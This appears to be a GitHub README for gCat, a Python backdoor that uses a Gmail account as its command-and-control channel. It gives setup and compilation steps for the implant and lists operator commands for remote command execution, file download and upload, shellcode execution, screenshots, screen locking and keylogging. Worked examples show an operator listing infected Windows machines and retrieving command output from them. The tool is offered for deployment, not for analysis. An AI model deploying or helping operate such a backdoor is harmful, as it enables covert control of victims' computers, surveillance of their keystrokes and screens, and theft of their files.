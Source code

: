 <p align="center">
 <img src="https://github.com/s1l3nt78/gcat/blob/master/.vs/gcat.png" alt="" />
 <br />
 <img src="https://img.shields.io/badge/-Python2-3776AB?style=for-the-badge&logo=python&logoColor=white"><br />
				<img align="center" src="https://img.shields.io/github/issues/s1l3nt78/gcat" />
				<img align="center" src="https://img.shields.io/github/forks/s1l3nt78/gcat" />
				<img align="center" src="https://img.shields.io/github/stars/s1l3nt78/gcat" />
				<br />
				<img align="center" src="https://img.shields.io/badge/Version-1-red" />
				<img align="center" src="https://img.shields.io/badge/Coming-Version 2-orange" />
				<br />
				<img align="center" src="https://www.codefactor.io/repository/github/s1l3nt78/gcat/badge" alt="CodeFactor">
				<img align="center" src="https://img.shields.io/badge/Author-byt3bl33d3r-blue" /><br />
 <img align="center" src="https://img.shields.io/badge/Redevelopment by-s1l3nt78-blueviolet" />
</p>

# gCat
A stealthy Python based backdoor that uses Gmail as a command and control server

#  Original Author: <a href="https://github.com/byt3bl33d3r"><strong>byt3bl33d3r</strong></a>

    Redeveloping a new Version
    *s1l3nt78
    
 -----------------------------------------------------------------------------------------------------
 
## Setup 

For this to work you need:
- A Gmail account (**Use a dedicated account! Do not use your personal one!**)
- Turn on "Allow less secure apps" under the security settings of the account
- You may also have to enable IMAP in the account settings

--------------------------------------------------------------------------------------------------

PreReqs
--------
- <a href="https://www.python.org/ftp/python/2.7.13/python-2.7.13.msi">Python 2 (32-bit for universal system compatibility)</a>
- <a href="https://sourceforge.net/projects/pywin32/files/pywin32/Build%20217/pywin32-217.win32-py2.7.exe/download">PyWin32</a>
- <a href="https://files.pythonhosted.org/packages/52/e5/0ce68034f3441bda11538162796dac5a8e5873e8af5d23aaea65e81c7e51/pyinstaller-2.0.zip">Pyinstaller (<strong>MUST BE VERSION 2</strong>)</a>
- <a href="https://github.com/upx/upx/releases/download/v3.96/upx-3.96-win32.zip">UPX (optional)</a>

      Once you have downloaded the pyinstaller zip file from the link above, unzip it
      and move "implant.py" to the pyinstaller folder from the zip. 
      Ensure python2 is registered in your path then from the pyinstaller folder run:
        
      >  python pyinstaller.py --onefile implant.py

-----------------------------------------------------------------------------------------------------

This repo contains two files:
- ```gcat.py``` a script that's used to enumerate and issue commands to available clients
- ```implant.py``` the actual backdoor to deploy

In both files, edit the ```gmail_user``` and ```gmail_pwd``` variables with the username and password of the account you previously setup.

**Note: It's recommended you compile implant.py using a 32bit Python installation**

--------------------------------------------------------------------------------------------------------

# Usage

```
                                             dP   
                                             88   
                .d8888b. .d8888b. .d8888b. d8888P 
                88'  `88 88'  `"" 88'  `88   88   
                88.  .88 88.  ... 88.  .88   88   
                `8888P88 `88888P' `88888P8   dP   
                     .88                          
                 d8888P  
                     

                   .__....._             _.....__,
                     .": o :':         ;': o :".
                     `. `-' .'.       .'. `-' .'   
                       `---'             `---'  

             _...----...      ...   ...      ...----..._
          .-'__..-''----    `.  `"`  .'    ----'''-..__`-.
         '.-'   _.--'''       `-._.-'       ''''--._   `-.`
         '  .-"'                  :                  `"-.  `
           '   `.              _.'"'._              .'   `
                 `.       ,.-'"       "'-.,       .'
                   `.                           .'
              jgs    `-._                   _.-'
                         `"'--...___...--'"`

                     ...IM IN YURR COMPUTERZ...

                        WATCHIN YURR SCREENZ

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on an implant

  -cmd CMD              Execute a system command
  -download PATH        Download a file from a clients system
  -upload SRC DST       Upload a file to the clients system
  -exec-shellcode FILE  Execute supplied shellcode on a client
  -screenshot           Take a screenshot
  -lock-screen          Lock the clients screen
  -force-checkin        Force a check in
  -start-keylogger      Start keylogger
  -stop-keylogger       Stop keylogger

Meow!

```

- Once you've deployed the backdoor on a couple of systems, you can check available clients using the list command:
```
#~ python gcat.py -list
f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86
```
The output is a UUID string that uniquely identifies the system and the OS the implant is running on


- Let's issue a command to an implant:
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'
[*] Command sent successfully with jobid: SH3C4gv
```
Here we are telling ```90b2cd83-cb36-52de-84ee-99db6ff41a11``` to execute ```ipconfig /all```, the script then outputs the ```jobid``` that we can use to retrieve the output of that command

- Lets get the results!
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv     
DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
JOBID: SH3C4gv
FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
CMD: 'ipconfig /all'


Windows IP Configuration

        Host Name . . . . . . . . . . . . : unknown-2d44b52
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No

-- SNIP --
```

- That's the gist of it! But you can do much more as you can see from the usage of the script! ;)

-----------------------------------------------------------------------------------------------

# To Do

- Multi-platform support
- ~~Command to upload files~~
- Transport crypto & obfuscation
